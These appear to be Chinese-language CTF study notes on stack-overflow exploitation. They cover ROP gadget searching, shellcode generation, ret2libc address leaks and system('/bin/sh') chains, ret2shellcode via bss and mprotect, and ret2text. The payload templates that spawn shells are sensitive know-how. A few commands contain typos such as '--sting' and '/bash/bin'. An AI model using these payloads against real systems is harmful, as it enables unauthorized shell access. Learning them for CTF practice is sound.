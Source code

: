 ## 进程虚拟地址空间

Bss：存放未初始化的全局变量

## 使用下面的方法获取寄存器的地址

```bash
ROPgadget --binary filename --only "pop|ret"
```

## 参数传入函数时，使用寄存器的顺序:

寄存器%rdi, %rsi, %rdx, %rcx, %r8, %r9 分别用来保存函数的 6 个参数，而 %rax 用来保存函数的返回值。

## shellcode获取：

### 32位：

```python
shellcode=asm(shellcraft.sh())
```

### 64位：

```python
shellcode=asm(shellcraft.amd64())
```

## 填充字符到规定的长度以构建shellcode：

```python
padding=缓冲区长度
shellcode=asm(shellcraft.amd64.sh())
shellcode.ljust(padding,'a'))
同理rjust表示把shellcode添加在右边
```

## 常用的gdb指令：

反汇编其中的某一个函数

```python
disass main
```

查看寄存器的值：

```python
x $rbp-0x8
```

查看栈空间：

```python
x/50xg $rsp
```
---

## ret2libc

Globle offset table(GOT) 全局偏移量表
Procedure linkage table(PLT) 过程连接表

函数的真正地址 = 基地址 + 偏移地址

通过 puts 输出函数的真实地址，减去已知的偏移地址得到程序的基址
然后通过对在基址上加上偏移地址，得到之后的真实函数调用地址，实现 `system(/bin/sh)`的调用

以下面的这个payload例子为例：

```python
payload = b'a'*(0x50+8) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(0x00000000004009A0)
```

这是第一个payload，其中的pop_rdi为寄存器rdi的值用来传递参数，puts_got为puts的got表的值，puts_plt为plt表的值，这三个连起来用即使用puts这个函数把puts的真实地址打印出来,最后面紧跟着的为之后跳转到的函数的地址，即打印完真实的puts地址后在哪里继续开始运行，可以使用这种方法实现两次甚至许多次的栈溢出，以此来获取更多的有效信息构造之后的payload（因为每一次运行程序，程序的基址都是会变的）

pwn中泄露地址 一般读到是  
```python
addr=u64(sh.recvuntil(\x7f)[-6:].ljust(8,'\x00'))
```
因为实际中一个地址的最高位两个字节是00  一般是0x7f开头

```python
payload = padding + p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)
```

在之前得到基址后就可以加上从对应的libc中得到的偏移地址，然后得到最后的真实地址进行跳转，获得shell

其中ret为任意一个返回地址，实现栈对齐，pop_rdi和之前的一样，作为寄存器来传递参数，参数即为后面的 `/bin/sh`，之后紧跟着的函数即为调用的被传递参数的函数system()

---

注意上面的这些构造的payload结构是适用于64位的，对于32位的程序，其结构不太一样，比如参数的传递是函数在前，参数在后，而不是像64位程序的参数在前，函数在后



1. 64位是先传参，而32是栈里面传参是后传参。64位汇编传参，当参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9。 当参数为7个以上时，
前 6 个与前面一样， 但后面的依次从 “右向左” 放入栈中，即和32位汇编一样
使用下面的这几个命令可以查看寄存器的地址：

```python
ROPgadget --binary 文件名 --only "pop|ret"
ROPgadget --binary 文件名 --only "pop|ret" | grep rdi
ROPgadget --binary 文件名 --only "pop|ret" | grep rsi
```
得到了寄存器的地址可以构造rop
此外，该工具除了可以用来查找 ret/rdi的地址,还可以用来查找一些字符串的地址

```python
ROPgadget --binary 文件名 --sting '/bin/sh'
ROPgadget --binary 文件名 --sting 'cat flag'
```
比如下面的这个情况：(write函数要传三个参数)

```python
payload = offset*'a' + p64(rdi_addr) + p64(1) + p64(rsi_r15_addr) + p64(write_got_addr) + p64(0) + p64(write_plt_addr) + p64(main_addr)
```

含义：偏移量 + rdi寄存器 + 第一个参数 + rsi寄存器 + 第二个参数 + rdx寄存器 + 第三个参数 + write函数的地址 + 预留返回地址



```python
offset = 0x88 + 4
payload = offset*‘a’ + p32(write_plt_addr) + p32(main_addr) + p32(1) + p32(write_got_addr) + p32(4)
```

2. 32位程序：先是write函数的地址 + 预留返回地址 + write函数的三个参数 （1 + write函数的真正地址（got表内的地址） + 打印的字节）

注意：这里的预留返回地址很重要，它的目的是要再循环一此，所以该地址必须在溢出点之前，可以是main函数起点

---

>使用ret的地址去实现栈对齐的时候，在ida中要在汇编窗口中找ret命令，不能简单的使用F5反编译之后的return的地址


>当`/bin/sh`没有或者不可用时，可以调用`sh`参数，也可以实现getshell



>调用system函数时，也不能直接通过反编译的函数地址去调用，这样仅仅是使用了地址而已，正确需要调用的是call system这个指令


参考这两篇写的不错的帖子

[pwn基本ROP——ret2libc_pwn ret2libc-CSDN博客](https://blog.csdn.net/turtlesd/article/details/124421356?spm=1001.2014.3001.5506)

[PWN题型之Ret2Libc_ret2shellcode&#39; is not marked as executable (+x)-CSDN博客](https://blog.csdn.net/qq_51032807/article/details/114808339?spm=1001.2014.3001.5506)


## ret2shell

一种题型是现将shellcode写入bss中然后通过mprotect对bss进行赋权，使其可以被执行，然后再通过栈溢出去调用这个bss的内容，使其执行shellcode


其中查看内存权限的命令为`vmmap`
对于64位的程序，生成shellcode的代码为：
`shellcode=asm(shellcraft.amd64.sh())`

对于写入bss的内容，是s这个变量中存的所有内容，直到主函数返回时才会跳转到bss执行其中的内容

- bss段（bss segment）：bss是Block Started by Symbol的简称，用来存放程序中未初始化的全局变量的内存区域，属于静态内存分配。
- data段（data segment）：用来存放程序中已初始化的全局变量的内存区域，属于静态内存分配。
- text段（text segment）：用来存放程序执行代码的内存区域。这部分区域的大小在程序运行前就已经确定，并且内存区域通常属于只读（某些架构也允许代码段为可写，即允许修改程序）。也有可能包含一些只读的常数变量，例如字符串常量等。
- 堆（heap）：用于存放进程运行中被动态分配的内存段，它的大小并不固定，可动态扩张或缩减。
- 栈（stack）：用户存放程序临时创建的局部变量，也就是说我们函数括弧“{}”中定义的变量（但不包括static声明的变量，static意味着在data段中存放变量）。除此以外，在函数被调用时，其参数也会被压入发起调用的进程栈中，并且待到调用结束后，函数的返回值也会被存放回栈中。

---


## ret2text


close(1) 关闭了标准输出
打通后需要重新启动标准输出：
```sh
exec 1>&0
```
其中0是标准输入，1是标准输出，2是标准错误
1. `exec`
- 在 Shell 中，exec 可以用于 改变当前进程的文件描述符（而不是启动新进程）。
- 例如：exec 1>file.txt 会把当前 Shell 的 stdout 重定向到 file.txt。
2. `1>&0`

- 1 代表 stdout（标准输出，文件描述符1）
- &0 代表 stdin（标准输入，文件描述符0） 
- 1>&0 的意思是 “把文件描述符1（stdout）指向文件描述符（stdin）当前指向的地方” 

其中可以直接调用包含system('/bash/bin')的其他已有函数也可以直接调用system('/bash/bin')，但是需要调用从lea命令的地址开始，即下面的这种结构：

```c
lea     rdi, command    ; "/bin/sh"
call    _system
```
